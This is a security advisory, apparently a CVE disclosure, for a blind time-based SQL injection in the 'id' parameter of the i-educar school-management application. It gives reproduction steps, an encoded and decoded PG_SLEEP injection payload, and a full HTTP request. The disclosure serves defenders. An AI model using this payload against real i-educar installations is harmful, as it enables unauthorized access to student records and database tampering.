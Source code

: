 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `module/Cadastro/aluno` Endpoint

### Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>/module/Cadastro/aluno</code> endpoint of the i-educar application, specifically in the <code>id</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### Details

Vulnerable Endpoint: `/module/Cadastro/aluno`

Parameter: `id`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>id</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### PoC

#### Step by Step:

<p align="justify">Access endpoint <code>/intranet/educar_aluno_lst.php</code> and choose (click on) any register. For this example was choosen <code>"Gael"</code> student which id = 208. In the student page <code>/intranet/educar_aluno_det.php?cod_aluno=208</code> click on <code>"Editar"</code> to be redirected to vulnerable endpoint. The payload must be inserted after <code>id</code> number (e.g. “id=208<code>payload</code>”)</p>

![](/CVEs/images/SQLi9.png)

![](/CVEs/images/SQLi10.png)

![](/CVEs/images/SQLi11.png)

##

#### Payload:

````html
%27%20AND%209581=(SELECT%209581%20FROM%20PG_SLEEP(5))%20AND%20%27bffB%27=%27bffB
````

#### Decoded Payload:

````html
' AND 9581=(SELECT 9581 FROM PG_SLEEP(5)) AND 'bffB'='bffB
````

<p align="justify"> This payload triggers a 5-second delay in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.</p>

##

#### Example Request:

````html
GET /module/Cadastro/aluno?id=208%27%20AND%209581=(SELECT%209581%20FROM%20PG_SLEEP(5))%20AND%20%27bffB%27=%27bffB HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;
q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=bnTu3HZ4Jk5a0JxRERNMd03ZAr1TUGvXZTDs9DdE
Connection: keep-alive
````
##

#### Normal Request:

![](/CVEs/images/SQLi12.png)

#### SQLi Request:

![](/CVEs/images/SQLi13.png)

<p align="justify">Observe the increased server response time, confirming that the injected SQL command was executed.</p>

---

### Impact

<p align="justify">
<ul>
  <li>Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details</li>
  <li>Database enumeration: Extracting database schema, tables, and column details</li>
  <li>Data manipulation: Adding, modifying, or deleting database records.</li>
  <li>Denial of Service (DoS): Using time-based queries to impact system availability.</li>
  <li>Potential escalation to RCE: If combined with other vulnerabilities and specific database features.</li>
</ul>
</p>

---

### Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*